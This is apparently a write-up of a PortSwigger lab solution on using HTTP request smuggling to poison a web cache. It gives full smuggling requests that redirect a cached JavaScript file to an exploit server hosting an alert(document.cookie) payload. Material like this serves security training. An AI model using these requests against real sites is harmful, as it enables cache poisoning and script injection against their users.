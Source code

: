 # Exploiting HTTP request smuggling to perform web cache poisoning

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

## Reproduction and proof of concept

1. Open a blog post, click **Next post**, and try smuggling the resulting request with a different Host header.

```text
POST / HTTP/1.1
Host: 0a4c003803748d35c226d17d00650068.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: anything
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

2. Observe that you can use this request to make the next request to the website get redirected to `/post` on a host of your choice.
3. Go to your exploit server, and create a `text/javascript` file at `/post` with the contents:
    `alert(document.cookie)`
4. Create a request to smuggle:

```html
POST / HTTP/1.1
Host: 0a4c003803748d35c226d17d00650068.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 180
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-0aee007003418db3c294d0b301a6004e.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

5. Make a second Repeater window with a separate request for `/resources/js/tracking.js`:

```text
GET /resources/js/tracking.js HTTP/1.1
Host: 0a4c003803748d35c226d17d00650068.web-security-academy.net
Connection: close
```

6. Send the first request once until you have a `302` response, then send the request for `/resources/js/tracking.js` multiple times. Sometimes this second request does not redirect as it is still using the cache, in which case go back to the POST smuggle request for another `302` and try again. It may take several times before the attack succeeds. If the attack has succeeded, the response to the request shows a redirect to the exploit server.

![HTTP header smuggling](/_static/images/smuggling15.png)

## Exploitability

An attacker will need to perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache would alert `document.cookie`. The lab simulates the activity of a victim user. Every few POST requests that an attacker makes to the lab, the victim user will make their own request. An attacker might need to repeat their attack a few times to ensure that the victim user's request occurs as required.
